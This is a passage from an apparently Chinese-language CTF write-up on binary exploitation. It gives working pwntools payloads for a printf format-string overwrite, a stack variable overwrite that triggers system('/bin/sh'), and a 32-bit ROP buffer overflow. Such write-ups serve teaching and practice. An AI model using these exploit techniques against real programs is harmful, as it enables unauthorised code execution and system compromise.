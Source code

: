 [printf格式化字符串漏洞原理解析](https://blog.csdn.net/liucc09/article/details/110142208)

`nptr`和地址`dword_804C044`比较，通过`printf`漏洞改写0x804C044的值即可

```
your name:abcd%10$x
Hello,abcd64636261
```

使用`abcd%N$x`重复输入测试得偏移量N为10，直接用pwntools构造`fmtstr_payload(10,{0x0804C044: 0x12345678})`

```python
sh.sendline(fmtstr_payload(10,{0x0804C044: 0x12345678}))
sh.sendline(str(0x12345678).encode('ascii'))
```

## ciscn_2019_n_8

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  //...
  puts("What's your name?");
  __isoc99_scanf("%s", var, v4, v5);
  if ( *(_QWORD *)&var[13] )
  {
    if ( *(_QWORD *)&var[13] == 17LL )
      system("/bin/sh");
  }
  //...
}
```

只需要使得`int64_t(var[13:21])`的值为17即可；考虑字节序即`var[13]=17, var[14:21]=0`

`payload = p32(17)*14 + p32(0)*7`

## jarvisoj_level2

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 0x100u);
}
```

明显的缓冲区溢出，无直接调用`system("/bin/sh")`但有`system()`函数地址0x0804a020，String view看到`"/bin/sh"`的地址0x0804a024，构造32位rop

`payload = b'a'*(0x88+4) + p32(0x8048320) + b'c'*4 + p32(0x0804a024)`

## get_started_3dsctf_2016
